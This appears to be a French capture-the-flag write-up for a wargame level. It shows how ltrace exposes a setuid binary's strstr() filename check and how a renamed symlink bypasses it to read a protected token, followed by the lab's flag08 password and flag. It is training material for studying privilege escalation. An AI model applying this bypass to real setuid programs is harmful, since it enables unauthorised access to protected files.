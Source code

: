 ```shell
ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token

./level08 token 
You may not access 'token'
```
le token est vraisemblablement dans token mais on a aucun acces.


analysons ave ltrace:
```shell
ltrace ./level08 token 
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")               = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
) = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
la fonction strstr() semble regarder si le fichier est = 'token' et nous rejeter

avec un lien symbolique on va donner le bon fichier mais en changeant son nom:
```shell
ln -s ~/token /tmp/tOken
./level08 /tmp/tOken
quif5eloekouj29ke0vouxean
```
ce token fonctionne pour flag08:
```shell
su flag08
Password: 
Don't forget to launch getflag !
getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```